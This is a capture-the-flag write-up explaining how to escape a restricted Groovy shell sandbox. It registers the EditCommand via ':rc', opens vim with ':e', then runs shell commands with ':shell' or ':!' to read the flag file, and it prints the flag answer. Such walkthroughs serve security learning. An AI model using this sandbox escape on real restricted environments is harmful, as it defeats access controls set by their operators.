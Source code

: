 # Solution

Since the implementation uses `SecureASTCustomizer` which only allows `java.lang.Math` class and is quite restricting, there is not much to do to escape the groovysh with groovy.

Except for groovy code interpretation, groovysh supports other commands available for listing with `:help` input to the groovy shell. In order to escape the groovy shell, we can use the available `:rc` command which implements a registration of a new groovy shell command. 

All available commands are listed in the Groovy documentation - https://groovy-lang.org/groovysh.html#GroovyShell-RecognizedCommands

To get the name of the class and its full path might be a bit trickier, but they are all available in the Groovy's Github repository - https://github.com/apache/groovy/tree/master/subprojects/groovy-groovysh/src/main/groovy/org/apache/groovy/groovysh/commands

The easiest and intended way to get to the flag is to load the `org.apache.groovy.groovysh.commands.EditCommand` with the `:register` command and enter edit mode with `:e`:
```
Groovy Shell (3.0.9, JVM: 11.0.11)
Type ':help' or ':h' for help.
-------------------------------------------------------------------------------
groovy:000> :h
:h

For information about Groovy, visit:
    http://groovy-lang.org 

Available commands:
  :help      (:h ) Display this help message
  ?          (:? ) Alias to: :help
  :exit      (:x ) Exit the shell
  :quit      (:q ) Alias to: :exit
  :register  (:rc) Register a new command with the shell

For help on a specific command type:
    :help command 

groovy:000> :rc org.apache.groovy.groovysh.commands.EditCommand
:rc org.apache.groovy.groovysh.commands.EditCommand
===> true
groovy:000> :h
:h

For information about Groovy, visit:
    http://groovy-lang.org 

Available commands:
  :help      (:h ) Display this help message
  ?          (:? ) Alias to: :help
  :exit      (:x ) Exit the shell
  :quit      (:q ) Alias to: :exit
  :register  (:rc) Register a new command with the shell
  :edit      (:e ) Edit the current buffer

For help on a specific command type:
    :help command 

groovy:000> 
```

When in `:edit` mode, `vim` window pops up which can open a shell with a simple `:shell` (do not forget to `stty raw -echo` in order for this to work). If `:shell` is not an option, we can also use `:o` to open the flag file from within `vim` or `:!` to execute any other command.
```
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
~                                                                               
:! cat no-guess-file-flag.txt
ibctf{n0w-y0u-put_w4t3r_int0-a-cup_1t_b3c0mm3s-4-cup}

Press ENTER or type command to continue
```
